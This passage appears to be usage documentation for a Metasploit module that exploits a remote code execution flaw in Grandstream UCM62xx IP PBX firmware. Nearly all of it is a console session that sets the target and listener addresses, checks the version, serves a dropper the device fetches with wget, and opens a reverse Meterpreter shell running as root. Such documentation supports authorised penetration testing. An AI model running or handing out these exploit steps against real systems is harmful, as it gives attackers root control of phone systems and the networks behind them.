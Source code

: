 ### TARGETURI

Specifies base URI. The default value is `/`.

## Scenarios

### Grandstream UCM6202 IP PBX fimrware version 1.0.18.13. Get Meterpreter session.

```
msf6 > use exploit/linux/http/grandstream_ucm62xx_sendemail_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > check

[*] Requesting version information from /cgi
[*] The reported version is: 1.0.18.13
[*] 10.0.0.9:8089 - The target appears to be vulnerable. This determination is based on the version string.
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > run

[*] Started reverse TCP handler on 10.0.0.3:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting version information from /cgi
[*] The reported version is: 1.0.18.13
[+] The target appears to be vulnerable. This determination is based on the version string.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/unV0mXd6RPWD
[*] Local IP: http://10.0.0.3:8080/unV0mXd6RPWD
[*] Client 10.0.0.9 (Wget/1.10.1) requested /unV0mXd6RPWD
[*] Sending payload to 10.0.0.9 (Wget/1.10.1)
[*] Sending stage (903400 bytes) to 10.0.0.9
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.9:51031 ) at 2022-01-15 12:12:28 -0800
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

meterpreter > shell
Process 4990 created.
Channel 1 created.
whoami
root
uname -a
Linux UCM6202 3.0.35 #1 SMP PREEMPT Thu Jul 5 15:56:51 CST 2018 armv7l GNU/Linux
cat /proc/cpuinfo
Processor	: ARMv7 Processor rev 10 (v7l)
processor	: 0
BogoMIPS	: 1988.29

processor	: 1
BogoMIPS	: 1987.37

Features	: swp half thumb fastmult vfp edsp neon vfpv3
CPU implementer	: 0x41
CPU architecture: 7
CPU variant	: 0x2
CPU part	: 0xc09
CPU revision	: 10

Hardware	: Freescale i.MX 6Quad/DualLite/Solo based Board
```
